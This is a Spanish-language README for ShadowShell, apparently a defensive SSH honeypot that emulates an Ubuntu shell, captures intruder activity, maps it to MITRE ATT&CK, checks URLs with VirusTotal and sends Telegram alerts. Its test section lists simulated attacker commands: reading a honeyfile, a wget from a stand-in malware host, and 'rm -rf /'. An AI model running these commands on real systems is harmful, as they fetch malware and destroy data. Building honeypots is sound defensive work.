

# 🕸️ ShadowShell - SSH Honeypot & Threat Intelligence System


**ShadowShell** es un sistema avanzado de ciberseguridad diseñado para emular un servidor Linux vulnerable, atraer atacantes, capturar su actividad y analizarla en tiempo real.

A diferencia de un honeypot simple, **ShadowShell** integra inteligencia de amenazas automatizada, clasificando ataques con el framework **MITRE ATT&CK**, analizando descargas de malware con **VirusTotal** y perfilando la infraestructura del atacante (ISP/Organización).

---

## 🚀 Características Principales

### 🧠 Inteligencia & Análisis
- **🔍 Análisis de Malware:** Integración automática con **VirusTotal API** para escanear URLs (`wget`/`curl`) detectadas en los comandos sin descargar el payload peligroso.
- **🛡️ Mapeo MITRE ATT&CK:** Clasificación automática de comandos tácticos (ej. *Privilege Escalation*, *Defense Evasion*, *Credential Access*).
- **🌍 Geolocalización Avanzada:** Identificación de País, Ciudad, **ISP y Organización** del atacante.
- **📍 Simulación Local:** Sistema inteligente que simula geolocalización para pruebas en redes privadas (Docker/Localhost).

### 🕵️‍♂️ Captura & Emulación
- **Fake Shell:** Emulación de servidor Ubuntu 22.04 LTS con sistema de archivos virtual.
- **Honeyfiles:** Archivos trampa (`passwords.txt`, `wallet_backup.json`) que disparan alertas críticas de "Robo de Datos" al ser leídos.
- **Monitor de Credenciales:** Registro de usuarios y contraseñas utilizados en intentos de fuerza bruta.

### 📊 Visualización & Alertas
- **📱 Alertas en Tiempo Real:** Notificaciones instantáneas a **Telegram** con detalles del intruso (IP, Comando, Resultado VT).  
- **📈 Dashboard Forense (Streamlit):**  
  - **Mapa Mundial de Amenazas** en tiempo real.  
  - **Matriz MITRE ATT&CK** interactiva.  
  - **Gráficos de Distribución** por ISP y Organización.  
  - **Logs detallados** con filtros forenses.  

### 🐳 Despliegue  
- **Dockerized:** Listo para desplegar en cualquier entorno con un solo comando.  
- **Persistencia:** Base de datos SQLite ligera y rápida.  

---

## 🏗️ Arquitectura del Sistema  


### 🛠️ Instalación y Uso  
Prerrequisitos  
```bash
Docker & Docker Compose (Recomendado)

O Python 3.9+ si se corre localmente.
```
```bash
- ✅ Paso 1: Clonar el repositorio
git clone [https://github.com/punga1078/ShadowShell](https://github.com/punga1078/ShadowShell)
cd ShadowShell
```
``` bash
- ✅ Paso 2: Configurar Variables de Entorno
Crea un archivo .env en la raíz del proyecto y agrega tus claves:
TELEGRAM_TOKEN=tu_token_de_telegram
TELEGRAM_CHAT_ID=tu_chat_id
VT_API_KEY=tu_api_key_de_virustotal
```
#### 🚀 Ejecutar el contenedor:  
Mapea el puerto 2222 (SSH) y 8501 (Dashboard)  
docker run -p 2222:2222 -p 8501:8501 --env-file .env shadowshell  

### 🕹️ Cómo Probarlo (Simulación de Ataque)
Una vez que el contenedor esté corriendo:

Acceder al Dashboard: Abre tu navegador en http://localhost:8501.  

Lanzar un Ataque Simulado: Desde otra terminal, conéctate a tu propio honeypot:   
ssh root@localhost -p 2222  
(Cualquier contraseña es válida)  

Ejecutar Comandos Maliciosos: Dentro de la shell falsa, prueba estos comandos para ver las alertas:

   ```bash
   # 1. Táctica: Discovery (Reconocimiento)
   ls -la

   # 2. Alerta IDS: Robo de Datos (Honeyfile trigger)
   cat passwords.txt

   # 3. Alerta VirusTotal + Táctica: Resource Development
   wget [http://malware.com/virus](http://malware.com/virus)

   # 4. Táctica: Defense Evasion (Borrado de huellas)
   rm -rf /
 ```

📂ShadowShell/  
├── 📂DATA/               # Persistencia (Base de datos SQLite y Logs)  
├── 📂SRC/  
│   ├── logger.py       # Gestión de logs y base de datos  
│   ├── notifier.py     # Sistema de alertas a Telegram  
│   ├── shell_emulator.py # Simulación de terminal Linux y Honeyfiles  
│   └── vt_scanner.py   # Integración con VirusTotal API  
├── server.py           # Servidor SSH Principal (Core)  
├── dashboard.py        # Interfaz de Inteligencia (Streamlit)  
├── Dockerfile          # Configuración de imagen Docker  
├── requirements.txt    # Dependencias de Python  
└── .env                # Credenciales   

⚠️ Disclaimer  
Este software ha sido desarrollado únicamente con fines educativos y de investigación académica.  

El autor no se hace responsable del uso indebido de esta herramienta.  

Se recomienda desplegar este sistema en entornos controlados, aislados o en servidores VPS dedicados para evitar riesgos de seguridad en redes personales.  
